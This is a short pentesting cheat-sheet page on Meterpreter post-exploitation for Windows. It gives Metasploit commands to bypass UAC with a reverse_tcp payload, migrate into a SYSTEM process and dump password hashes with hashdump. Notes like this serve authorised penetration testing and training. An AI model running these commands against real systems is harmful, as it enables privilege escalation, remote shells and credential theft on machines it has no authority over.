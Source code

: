 ```yaml
---
layout: default
title: Meterpreter
parent: Post-Admin/Root
---
```


# Meterpreter
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Bypass UAC
Uploads shell in context that is not restricted by UAC
```shell
background             # Background session
use exploit/windows/local/bypassuac
set SESSION <session>
set PAYLOAD <payload>  # e.g. windows/meterpreter/reverse_tcp
# Setup necessary payload parameters
run
```

## Migrating Processes
```shell
ps  # Note the PID of process that runs under NT AUTHORITY\SYSTEM
migrate <PID>
```

## Useful Commands
```shell
getprivs  # Check privileges; can be expanded via bypassuac
getuid    # Check user
hashdump  # Requires SYSTEM privileges
```
